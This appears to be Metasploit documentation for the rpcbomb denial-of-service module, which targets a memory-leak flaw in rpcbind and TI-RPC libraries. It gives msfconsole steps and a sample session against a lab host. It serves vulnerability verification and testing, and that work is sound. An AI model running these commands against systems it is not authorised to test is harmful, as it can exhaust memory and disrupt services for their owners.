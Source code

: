 ## Vulnerable Application

This module [exploits a vulnerability](http://openwall.com/lists/oss-security/2017/05/03/12) in rpcbind through 0.2.4,
LIBTIRPC through 1.0.1 and 1.0.2-rc through 1.0.2-rc3, and NTIRPC through 1.4.3.

Exploiting this vulnerability allows an attacker to trigger large (and never freed) memory allocations for XDR strings on the target.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/dos/rpc/rpcbomb`
1. Do: `set RHOSTS [IP]`
1. Do: `run`
1. Target should leak memory

## Scenarios

### rpcbind 0.2.3-0.2 on Ubuntu 16.04 (amd64)

```
msf > use auxiliary/dos/rpc/rpcbomb 
msf auxiliary(rpcbomb) > set RHOSTS 10.0.2.7
RHOSTS => 10.0.2.7
msf auxiliary(rpcbomb) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(rpcbomb) >
```
